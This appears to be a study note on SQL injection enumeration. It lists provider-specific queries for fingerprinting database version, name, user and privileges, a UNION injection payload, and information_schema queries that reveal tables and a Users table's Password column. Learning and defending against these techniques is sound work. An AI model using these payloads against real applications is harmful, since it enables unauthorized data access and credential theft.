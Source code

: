 ## Querying the Database Type and Version
You can potentially identify both the database type and version by injecting provider-specific queries to see if one works. The following are some queries to determine the database version for some popular database servers:

| Database type    | Query                     |
| ---------------- | ------------------------- |
| Microsoft, MySQL | `SELECT @@version`        |
| Oracle           | `SELECT * FROM v$version` |
| PostgreSQL       | `SELECT version()`        |

For example, you could use a `UNION` attack with the following input `' UNION SELECT @@version--`. Which might return the following output. In this case, you can confirm that the database is Microsoft SQL Server and see the version used:
```txt
Microsoft SQL Server 2016 (SP2) (KB4052908) - 13.0.5026.0 (X64)
Mar 18 2018 09:11:49
Copyright (c) Microsoft Corporation
Standard Edition (64-bit) on Windows Server 2016 Standard 10.0 <X64> (Build 14393: ) (Hypervisor
```
## Query the Database Name and User
You can potentially identify both the database name and user by injecting provider-specific queries to see if one works. The following are some queries for some popular database servers:

| Database type | Query                       |
| ------------- | --------------------------- |
| MySQL         | `SELECT database()`         |
| PostgreSQL    | `SELECT current_database()` |
| Microsoft     | `SELECT db_name()`          |
| Oracle        | `SELECT * FROM v$database;` |

| Database type | Query                                              |
| ------------- | -------------------------------------------------- |
| MySQL         | `SELECT current_user()` or `SELECT session_user()` |
| PostgreSQL    | `SELECT current_user` or `SELECT current_role`     |
| Microsoft     | `SELECT user_name()`                               |
| Oracle        | `SELECT user FROM dual`                            |
## Query the Database User Privileges
It is also possible to view a DB user's privileges in order to understand what it can and cannot do.

We can use the following query to check if the current DB User has superuser privileges. If the results returned `Y`, it indicates that the current user has superuser privileges.
```sql
SELECT super_priv FROM mysql.user
```
Additionally, we can dump other privileges for the current DB user using the following query:
```sql
SELECT grantee, privilege_type FROM information_schema.user_privileges
```
## Enumerating using `information_schema` Database
The `information_schema` database contains metadata about the database, tables, and columns present on the server, making it a crucial step for attackers to view or enumerate when performing SQL injection vulnerabilities.
> Note: Most databases have an `information_schema` present, except for Oracle databases.

There are a couple of ways an attacker can use the `information_schema` database to fingerprint the database:
### Query `schemata` Table to List All Databases
The table `schemata` in the `informatioN-schema` database contains information about all databases on the server. The `schema_name` column contains all the databases names currently present.
```sql
SELECT 1,schema_name,3,4 FROM information_schema.schemata-- -
```
> Reminder: We are adding an extra dash (-) at the end, to show you that there is a space after (--).

>Note: This enumeration section is usually done by using the UNION operator. To know more about UNION attacks, refer to this [page](obsidian://open?vault=security-notes&file=Offensive%20Security%2FWeb%20Application%20Security%2FServer-side%20Vulnerabilities%2FSQL%20Injection%2FUNION%20Attacks%2FIntroduction).
### Listing Contents of Databases
An attacker can also query the `tables` in the `information_schema` database to view information about all the tables throughout the database. This table contains multiple columns, but the `TABLE_NAME` and `TABLE_SCHEMA` are the most important ones as they store the table names and the table's associated database.
```sql
SELECT * FROM information_schema.tables
```
This returns the following output:
```txt
TABLE_CATALOG  TABLE_SCHEMA  TABLE_NAME  TABLE_TYPE
=====================================================
MyDatabase     dbo           Products    BASE TABLE
MyDatabase     dbo           Users       BASE TABLE
MyDatabase     dbo           Feedback    BASE TABLE
```
Additionally, you can also inspect the table structure by submitting the following query:
```sql
SELECT * FROM information_schema.columns WHERE table_name='Users'
```
This returns the following output:
```txt
TABLE_CATALOG  TABLE_SCHEMA  TABLE_NAME  COLUMN_NAME  DATA_TYPE
=================================================================
MyDatabase     dbo           Users       UserId       int
MyDatabase     dbo           Users       Username     varchar
MyDatabase     dbo           Users       Password     varchar
```
### Listing Contents of Oracle Databases
On Oracle, you can find the same information as follows:
- You can list tables by querying `all_tables`:
```sql
SELECT * FROM all_tables
```
- You can list columns by querying `all_tab_columns`:
```sql
SELECT * FROM all_tab_columns WHERE table_name = 'USERS'
```